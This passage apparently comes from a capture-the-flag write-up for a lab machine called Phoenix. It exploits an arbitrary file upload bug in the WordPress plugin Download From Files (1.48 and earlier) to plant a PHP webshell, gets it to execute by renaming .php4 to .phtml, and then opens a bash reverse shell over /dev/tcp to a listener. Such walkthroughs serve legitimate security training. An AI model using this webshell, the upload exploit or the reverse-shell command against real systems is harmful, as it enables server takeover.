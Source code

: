 
This disable warnings line isn’t necessary, but hides some annoying errors.

When I run it, it works:

    
    
    oxdf@hacky$ python download_upload.py https://phoenix.htb cmd.php4 
    Download From Files <= 1.48 - Arbitrary File Upload
    Author -> spacehen (www.github.com/spacehen)
    Uploading Shell...
    Shell Uploaded!
    https://phoenix.htb/wp-admin/cmd.php4
    

The webshell doesn’t execute:

    
    
    oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd.php4?cmd=id
    <?php system($_REQUEST['cmd']); ?>
    

The server is not processing `.php4` files as PHP. I’ll rename the shell to
`.phtml` and try again:

    
    
    oxdf@hacky$ python download_upload.py https://phoenix.htb cmd.phtml 
    Download From Files <= 1.48 - Arbitrary File Upload
    Author -> spacehen (www.github.com/spacehen)
    Uploading Shell...
    Shell Uploaded!
    https://phoenix.htb/wp-admin/cmd.phtml
    oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd.phtml?cmd=id
    uid=1001(wp_user) gid=1001(wp_user) groups=1001(wp_user)
    

It works.

### Shell

To get a shell, I’ll change the data into a POST request and have `curl` url-
encode it:

    
    
    oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd.phtml --data-urlencode 'cmd=id'
    uid=1001(wp_user) gid=1001(wp_user) groups=1001(wp_user)
    

Now I’ll replace `id` with a reverse shell. On running, it hangs:

    
    
    oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd.phtml --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
    

But there’s a shell at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.149 51944
    bash: cannot set terminal process group (818): Inappropriate ioctl for device
    bash: no job control in this shell
    wp_user@phoenix:~/wordpress/wp-admin$ 
    
